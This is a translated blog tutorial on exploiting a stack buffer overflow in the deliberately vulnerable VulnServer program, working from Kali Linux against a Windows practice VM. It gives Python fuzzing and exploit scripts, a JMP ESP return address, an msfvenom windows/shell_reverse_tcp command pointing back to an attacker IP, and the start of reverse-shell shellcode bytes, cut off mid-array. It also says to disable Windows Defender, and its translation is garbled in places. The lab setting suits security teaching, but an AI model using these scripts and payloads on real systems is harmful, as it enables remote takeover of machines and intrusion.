# Buffer Overflow Practice

> Originally published on [Naver Blog](https://blog.naver.com/chaeeunhur630/224348338048). Translated and reformatted in English.

https://www.youtube.com/watch?v=ncBblM920jw

In this video, we will use attack machine & victime machine.

The victim machine must be Windows.

Attack Machine

A computer with attack tools installed on which penetration tests or security exercises are conducted.
Usually, distributions dedicated to penetration testing such as Kali Linux and Parrot OS are used.
Tools like msfvenom, Metasploit, and nmap are installed here.
This is where the payload is created and the attack attempt is “executed”.

Victim Machine

Test computer targeted for attack
Examples: Windows XP, VMs with outdated software, etc.
The role of being “taken” by being intentionally configured to be vulnerable.
It is usually an isolated practice environment (virtual machine) rather than an actual service system.





Here, the user's input is generally limited to the buffer space, but in case of a buffer overflow, it can cover up to eip. In other words, you can even manipulate the return address.

steps to conduc a bof

spiking (method that hacker use to find a vulnerable part of a program)

Fuzzing (spiking looks for vulnerabilities, but fuzzing looks at what inputs are actually causing the crash)

Finding the offset

overwriteing the eip

finding bad character (which byte is causing the problem)

finding right module (Finding a module without a protection function. In other words, examine each module and find out what protection techniques are in place)

generating shellcode

Root! (Confirmation of successful attack PoC)

Spicking

Before starting full-scale hacking on YouTube, you must turn off Windows Defender Real Time Protection. (Be sure to turn it on again later)

After that, turn on both the vuln program and immunity dbg with administrator privileges and attach the file to the debugger.



Let's stop running it and move it to a Kali Linux machine. Let's connect to the vuln_server program in Windows using Netket from Kali (attacker role).

If you look at the source code of the vulnserver program, it is written into the code to use port 9999 (hard-coded). So

nc -nv 192.168.142.1 9999

TRUN, which appears in BOF (Buffer Overflow) exercises, is usually a command from an intentionally vulnerable learning program called VulnServer. When you connect to VulnServer, you can use several commands, one of which is TRUN.

For example: TRUN hello

If you type like this, the server will try to process hello. The problem is that VulnServer's TRUN function is not designed to properly check the input length, so sending a string that is too long may cause the program to crash.

generic_send_tcp is a TCP client script for testing, used in the Immunity Debugger's Mona plugin or in some BOF courses.

To put it simply: My computer → It is a simple tool that sends data to a vulnerable server (VulnServer).

For example, with Netcat, you can connect and enter something like: nc 192.168.1.100 9999, but in the BOF exercise, hundreds to thousands of A characters must be sent, so an automated script is used.



Full operation flow:

Connect to server → Read one line of banner and throw it away

“STATS” fixed transmission

After that, 681 variant strings are sent one by one (e.g. STATS AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...)

If the server dies (crash) at a specific string → Immunity Debugger catches it.

In other words, the purpose of this script is to test **"whether vulnserver is vulnerable to the arguments attached to the STATS command"**. The general procedure for analyzing vulnserver vulnerabilities is to replace STATS with other commands, such as TRUN or GMON, and test each command in the same way.

Example: generic_send_tcp 192.168.1.100 9999 spike.spk 0 0 roughly means:

192.168.1.100 → Target server IP

9999 → VulnServer port

spike.spk → Spike script containing the data to be sent

Remaining numbers → Spike options

If you enter generic_send_tcp 192.168.142.1 9999 stats.spk 0 0 and run it....



after that



Turn this too. This time, it is not a STATS command, but a script that fuzzes the argument part of the TRUN command. Here, an access violation appears and the immunity dbg suddenly changes.

Direct comparison with code
STATS (safe):
c} else if (strncmp(RecvBuf, "STATS ", 6) == 0) {
 char *StatBuf = malloc(120);
 memset(StatBuf, 0, 120);
 strncpy(StatBuf, RecvBuf, 120); // ← strncpy: length limited to 120 bytes

strncpy(dest, src, 120) → Copies only up to 120 bytes. 
No matter how long the string is sent, it is truncated after 120 bytes and does not overflow the buffer. 
So no matter how long a string you enter with SPIKE, it will be safely ignored.

TRUN (dangerous):
c} else if (strncmp(RecvBuf, "TRUN ", 5) == 0) {
 char *TrunBuf = malloc(3000);
 memset(TrunBuf, 0, 3000);
 for (i = 5; i < RecvBufLen; i++) {
 if ((char)RecvBuf[i] == '.') {
 strncpy(TrunBuf, RecvBuf, 3000);
 Function3(TrunBuf); // ← Pass 3000 bytes of data to this function
 break;
 }
 }
And Function3:
cvoid Function3(char *Input) {
 char Buffer2S[2000]; // ← There is only a 2000 byte local buffer on the stack
 strcpy(Buffer2S, Input); // ← strcpy: No length limit at all!!
}
Here's the problem:

TrunBuf can hold up to 3000 bytes.
Buffer2S inside Function3, which receives it, only has 2000 bytes on the stack.
However, the function used when copying is strcpy — this has no length limit and copies everything until a null character (\0) is encountered.
That is, if you cram up to 3000 bytes into a 2000-byte container, the excess (about 1000 bytes) will overwrite other areas of the stack — 
This also includes the address to return to after the function ends (return address), so if this is overwritten, the attacker can manipulate the program execution flow as desired. 
You will be able to. This is a stack buffer overflow.



In this photo, the eip value has warmed up. In other words, a hacker can manipulate the next address (program flow).

Fuzzing

The same vulnerability can also be identified through fuzzing. This exercise uses a custom socket fuzzer originally written in Python 2 and updated here for Python 3.

#!/usr/bin/python3
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
 try:
 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 s.connect(('192.168.142.1', 9999))

 s.send(('TRUN /.:/' + buffer).encode())
 s.close()
 sleep(1)
 buffer = buffer + "A"*100

 except:
 print("Fuzzing crashed at %s bytes" % str(len(buffer)))
 sys.exit()

To roughly explain the code principle, this script has the same purpose as trun.spk (SPIKE) created earlier, but is a custom fuzzer implemented directly as a Python socket. By sending longer and longer strings to the TRUN command, we find out exactly at what byte the server will die.



The fuzzer increases the payload length until the service crashes.

finding offset

Like last time, the offset will likely be found through patter_create using a tool called Mona. For reference, the reason why this command creates 3000 is because it used 2500 bytes until the last crash. I just rounded up.



And if you use the Python code again...

#!/usr/bin/python3
import sys, socket
from time import sleep

offset = "Aa0Aa1Aa2Aa3Aa4Aa5..." # (De Bruijn pattern, original content intact)

try:
 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 s.connect(('192.168.142.1', 9999))
 s.send(('TRUN /.:/' + offset).encode())
 s.close()
 print("Payload sent, length: %d" % len(offset))
except:
 print("Could not connect or send payload")
 sys.exit()

You can see that the Immunity Burger stops due to an access violation. Since you get an offset from user input to eip, you just need to find the eip value in the pattern.



If you use that value, you can see that the offset up to eip is 2003.



Overwriting EIP

This code fills all the data with a before the offset, and then fills only eip with 4 b. That is, overwrite eip with b's bytes.





It's a success. The space right before eip, up to ebp, is all A (41), but only the 4 bytes of ebp are B, that is, the value is 42.

Finding Bad Characters

Finding “Bad characters” is an essential verification step in developing buffer overflow exploits. Let me explain why you need it.

The next step after finding the offset (the exact distance to the EIP) is to overwrite the EIP and jump to the shellcode (the executable code the attacker wants). At this time, the shellcode must be loaded into the payload and sent to the server, but this is where a problem arises.

Not all byte values ​​(0x00 to 0xFF) are transmitted safely. Depending on how your program handles data, if a certain byte value comes in:

Data is truncated

Changed to a different value (transformed)

It may be misunderstood as the end of a string, or

As a result, the originally sent shellcode does not arrive in memory intact.

Examples of representative bad characters

0x00 (null byte)

In C, string functions such as strcpy and strncpy recognize 0x00 as the end of the string.

Do you remember the vulnserver code — strcpy(Buffer2S, Input) parts like this. If there is even one 0x00 in the middle of the shellcode, copying stops at that point. The shellcode behind it is not transmitted at all.

0x0A (line feed, LF), 0x0D (carriage return, CR)

The vulnserver receives data using recv(), but depending on the network protocol or parsing logic, these newline characters may be treated as end-of-line and the data may be truncated.

However, if you skip this step and just enter the shellcode:

If 0x00 or other bad characters are accidentally mixed in the shellcode.

Even though the exploit code is written correctly, a crash occurs but the shellcode does not execute.

In this case, it is very difficult to determine the cause (Is the offset wrong? Is the return address wrong? I wonder why it doesn't work?)

So, in advance, put all byte values from 0x01 to 0xFF in order in the payload and send it, and after a crash, dump the memory (stack) to visually check which bytes are missing or modified. Through this, we know in advance that “0x00, 0x0A, and 0x0D must be avoided when sending to this server,” and later, when generating the actual shellcode (msfvenom, etc.), these characters are automatically excluded with the -b option.

https://github.com/cytopia/badchars

GitHub - cytopia/badchars: Bad char generator to instruct encoders such as shikata-ga-nai to transform those to other chars.

Bad char generator to instruct encoders such as shikata-ga-nai to transform those to other chars. - cytopia/badchars

github.com

This tool is not a new concept, but a convenience tool that automatically extracts \x01\x02...\xff instead of typing it in by hand in the "Find Bad Characters" step explained above. This leads to practice of inserting the string created using this into the payload and crashing it, then comparing the memory dump with the original to find bad characters. Well, just copy and paste the Python bad chars list inside, there is no need to download it.

#!/usr/bin/python3
import sys, socket
from time import sleep

badchars = (
 "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
 "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
 "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
 "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
 "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
 "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
 "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
 "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
 "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
 "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
 "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
 "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
 "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
 "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
 "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
 "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

shellcode = "A" * 2003 + "B"*4 + badchars

try:
 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 s.connect(('192.168.142.1', 9999))
 s.send(('TRUN /.:/' + shellcode).encode('latin-1'))
 s.close()

except:
 print("Could not connect or send payload")
 sys.exit()

By concatenating them after EIP, we check that these bytes are entered into memory without being broken.

(Procedure method)

Running this script → vulnserver crashes

Check the memory pointed to by the ESP (stack pointer) at the time of the crash in the Immunity Debugger (the window shown on the screen).

\x01\x02\x03... Compare visually to see if everything is in order.

If there is a byte that is out of order, has a changed value, or is missing → that byte is a bad character.

When a bad character is found → remove that byte from badchars and rerun the script → repeat to obtain a completely clean list.



If an access violation occurs on this screen, right-click esp and follow in dump.



There are no bad chars. Everything is in the right place and in the right order.



For your reference, this is just an example shown on YouTube. If multiple wrong characters appear like this, the rest except the first one are okay. So, you can just leave out 04.

finding the right modules

finding the right modules means looking for a dll or something simmilar inside of a program that has no meomory protections. (eg. no dep or aslr or etc)

The module-selection step requires identifying a loaded module without ASLR, rebasing, or other protections that would make a stable `JMP ESP` address unreliable.

Why do you need JMP opcodes (e.g. JMP ESP)?
The goal is to move the execution flow to the desired code by overwriting the return address (EIP) with a buffer overflow. Typically, your shellcode will be placed on the stack, right after EIP (i.e. where ESP points to).
The problem is:

It is difficult to directly overwrite EIP with the exact stack address of the shellcode. This is because the stack address may change slightly each time it is executed (ASLR, environmental differences, etc.), and the exact hard-coded address is unreliable.

So instead we do this:

Overwrite EIP with the address where the JMP ESP command is located.
When the program jumps to that address, the CPU executes JMP ESP.
JMP ESP "jumps to where ESP points" = i.e. jumps to the top of the stack, where your shellcode is.

This is much more reliable because you can always reach the shellcode indirectly (via ESP) even if you don't know the exact shellcode address.
Why is it related to finding the "right module"?
Opcodes like JMP ESP already exist somewhere in the DLLs/modules that the program loads (we don't create new ones, but find them and recycle them within existing code — you can think of this as the basis of the "return-to-libc" or "return-oriented" technique).
However, you should not use the JMP ESP address found in any module. There are conditions:

Rebase = False (ASLR off) → The address does not change every time and is fixed.
SafeSEH = False → Required for SEH-based bypass
ASLR = False
NXCompat = False (DEP off) → If present, shellcode execution may be blocked in the stack.
Prefer third-party DLLs if possible (Windows system DLLs often have all of the protection techniques turned on in newer OSs)

What is mona.py?

mona.py is a Python exploit development assistance plugin used by Immunity Debugger. Originally named mona.py by "Corelan Team", it is an automation tool that makes the task of buffer overflow/exploit development much easier.

why you need it
With the Immunity Debugger itself, you have to manually go through memory dumps to find bad characters and gadget addresses. mona.py automates these repetitive tasks with a single command.

In the Immunity Debugger command window, type:
!mona modules

Lists all DLLs/modules loaded in the current process, indicating whether each module has the following protection mechanisms:

Here is the result of the !mona module in our dbg:



We are looking for modules that are attached (connected/attached) to the vuln server itself. If you look at the first line here, there is a dll that is a module attached to the vuln server and whose protection techniques are all false (there is no corresponding protection technique). Take a closer look:

0x62500000 | 0x62508000 | 0x00008000 | False | False | False | False | False | False | -1.0 [essfunc.dll] (C:\Users\sm\Desktop\vulnserver-master\essfunc.dll) 0x0

Now moving to Kali Linux, from the shell



This screenshot shows the process of checking the **machine opcode (FF E4)** of the JMP ESP command using Metasploit's nasm_shell.rb tool. In other words, you can see that the opcode (machine language) of jmp esp is FFE4. The reason we figure this out is that in order to scan the memory to find the address where the actual JMP ESP instruction is, we first need to know what that instruction looks like as a byte pattern. Afterwards, we search for this FF E4 byte pattern in the vulnerable DLL we found earlier and find the return address that will actually be used.



I'm looking for Mona again like this.

A total of 9 JMP ESP gadgets were found in essfunc.dll "Number of pointers of type '"\xff\xe4"' : 9" Addresses found (partial):

0x625011af

0x625011bb

0x625011c7

And so on...

I wrote the code using the content above.

#!/usr/bin/python3
import sys, socket
from time import sleep

shellcode = "A" * 2003 + "\xaf\x11\x50\x62" #reverse of this 625011af. replace eip places with ret gadget's address

try:
 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 s.connect(('192.168.142.1', 9999))
 s.send(('TRUN /.:/' + shellcode).encode('latin-1'))
 s.close()

except:
 print("Could not connect or send payload")
 sys.exit()

As you can see, I put the JMP ESP gadget behind the offset in Little Indian format. That is, eip (next move) will become JMP ESP and be executed. Go back to the Immunity Debugger,



Press .



A window like this will pop up, enter the address of the gadget you found earlier and press ok. Then, it will be moved to that address and press F2 to set a breakpoint. After that, run the program again and run the previous code in Kali, and you will see that eip has changed.



generating shellcode & gaining root

msfvenom is a tool included in the Metasploit framework. In short, it is a tool that creates malicious code (payload).

└─# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"

-p : setting payload for window machine cause we're attacking a window machine

shell reverse tcp : we're having to victim connect back to target mchine. therefore there should be our information"

LHOST : ip address of kali machine

LPORT : kali (attack machine's) 's port

-b "\x00" : giving list of bad characters that computer should avoid.



This is a shellcode that brings the input and output to the Kali (attacker) screen so that cmd.exe of the target (Windows/vulnserver) can be remotely controlled. If you understand, look below.

[Target Windows Server] [Kali Linux (Attacker)]
 vulnserver running 192.168.1.10
 (Vulnerabilities exist) 
 
 1. Execute shellcode with overflow 
 2. What the shellcode does: 
 ① Create cmd.exe process 
 ② Go to 192.168.1.10:4444 2. nc -lvnp 4444 (or
 TCP connection attempt ────────────► msfconsole handler)
 ③ The input/output of cmd.exe is “waited” in advance.
 Connect (redirect) to that TCP connection 
 3. Receive connection! 
 → Now in Kali terminal
 The cmd.exe prompt on the target is
 Moxibustion as is

The payload fits in this example, but payload size must always be checked against the vulnerable buffer's capacity in other targets.

#!/usr/bin/python3
import sys, socket
from time import sleep

overflow = (
"\xbf\x71\x36\xd7\xc2\xda\xd4\xd9\x74\x24\xf4\x5a\x2b\xc9"
"\xb1\x52\x83\xea\xfc\x31\x7a\x0e\x03\x0b\x38\x35\x37\x17"
"\xac\x3b\xb8\xe7\x2d\x5c\x30\x02\x1c\x5c\x26\x47\x0f\x6c"
"\x2c\x05\xbc\x07\x60\xbd\x37\x65\xad\xb2\xf0\xc0\x8b\xfd"
"\x01\x78\xef\x9c\x81\x83\x3c\x7e\xbb\x4b\x31\x7f\xfc\xb6"
"\xb8\x2d\x55\xbc\x6f\xc1\xd2\x88\xb3\x6a\xa8\x1d\xb4\x8f"
"\x79\x1f\x95\x1e\xf1\x46\x35\xa1\xd6\xf2\x7c\xb9\x3b\x3e"
"\x36\x32\x8f\xb4\xc9\x92\xc1\x35\x65\xdb\xed\xc7\x77\x1c"
"\xc9\x37\x02\x54\x29\xc5\x15\xa3\x53\x11\x93\x37\xf3\xd2"
"\x03\x93\x05\x36\xd5\x50\x09\xf3\x91\x3e\x0e\x02\x75\x35"
"\x2a\x8f\x78\x99\xba\xcb\x5e\x3d\xe6\x88\xff\x64\x42\x7e"
"\xff\x76\x2d\xdf\xa5\xfd\xc0\x34\xd4\x5c\x8d\xf9\xd5\x5e"
"\x4d\x96\x6e\x2d\x7f\x39\xc5\xb9\x33\xb2\xc3\x3e\x33\xe9"
"\xb4\xd0\xca\x12\xc5\xf9\x08\x46\x95\x91\xb9\xe7\x7e\x61"
"\x45\x32\xd0\x31\xe9\xed\x91\xe1\x49\x5e\x7a\xeb\x45\x81"
"\x9a\x14\x8c\xaa\x31\xef\x47\x15\x6d\x61\x16\xfd\x6c\x7d"
"\x08\xa2\xf9\x9b\x40\x4a\xac\x34\xfd\xf3\xf5\xce\x9c\xfc"
"\x23\xab\x9f\x77\xc0\x4c\x51\x70\xad\x5e\x06\x70\xf8\x3c"
"\x81\x8f\xd6\x28\x4d\x1d\xbd\xa8\x18\x3e\x6a\xff\x4d\xf0"
"\x63\x95\x63\xab\xdd\x8b\x79\x2d\x25\x0f\xa6\x8e\xa8\x8e"
